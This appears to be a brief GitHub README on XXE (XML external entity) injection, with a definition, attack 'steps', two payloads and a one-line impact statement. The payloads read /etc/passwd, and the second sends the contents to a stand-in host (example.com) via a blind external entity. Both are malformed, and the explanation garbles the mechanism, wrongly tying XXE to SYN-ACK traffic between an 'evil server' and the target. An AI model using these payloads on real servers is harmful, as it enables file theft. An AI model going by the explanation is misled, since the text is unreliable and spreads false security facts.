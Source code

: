 # XXE injection. 
# What is XXE injection? 
XXE injection also known as XML external entity injection. IT is a type of back end web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. IT works on SYN-ACK type of communication between evil sever and genuine server. It is more applicable in IoT and also known  as one of IoT attacks. XXE injection attack can be escalated by compormising server by using SSRF (server side request forgery).  
![XXE_600x315](https://user-images.githubusercontent.com/115407638/204035060-03d35c3f-eff2-48fb-8fd3-e61cc5bf77c0.png) 

# Steps to perform XXE injection. 
1) Client sends requests to the server XXE data. 
2) Server sends SYN-ACK sommand to evil server. 
3) XXE payload is injected and sent to the genuine server that asks for c:/windows/win.ini 
4) XXE vulnerablity of attacker is exploited. 

# Payloads Used 
1) ?xml version="1.0"? "!DOCTYPE data [<!ELEMENT data (#ANY)><!ENTITY file SYSTEM "file:///etc/passwd"] 
2) ?xml version="1.0"?!DOCTYPE foo [<!ELEMENT foo (#ANY)><!ENTITY % xxe SYSTEM "file:///etc/passwd"><!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;










# Impact 
XXE injection vulnerablity basically works on data in use and transit data. It can cause the loss of sensitive info of an organisation or an individual. 
